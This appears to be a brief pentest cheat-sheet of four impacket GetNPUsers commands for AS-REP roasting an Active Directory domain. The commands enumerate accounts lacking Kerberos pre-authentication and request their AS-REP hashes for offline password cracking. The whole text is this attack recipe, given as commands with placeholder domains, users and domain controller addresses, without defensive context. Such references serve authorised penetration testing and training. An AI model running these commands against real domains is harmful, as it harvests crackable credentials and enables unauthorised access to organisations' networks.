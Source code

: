 ## Use this impacket module to perform an ASREP-Roasting attack

#### 1) 

    Impacket-GetNPUsers DOMAIN.COM/USERNAME -no-pass (ASREPRoastable account)

#### 2) 

    Impacket-GetNPUsers DOMAIN.COM/USERNAME:PASSWORD (Request for ASREPRoastable Users within the domain)

#### 3) 

    GetNPUsers.py DOMAIN.local/ -no-pass -usersfile users.txt -dc-ip DC_IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN' 
    
(Check a list of valid users that are ASREPRoastable)

#### 4) 

    impacket-GetNPUsers -dc-ip DC_IP -request -usersfile usernames.txt DOAMIN.COM/

(ASREPRoast the users within the usernames file)
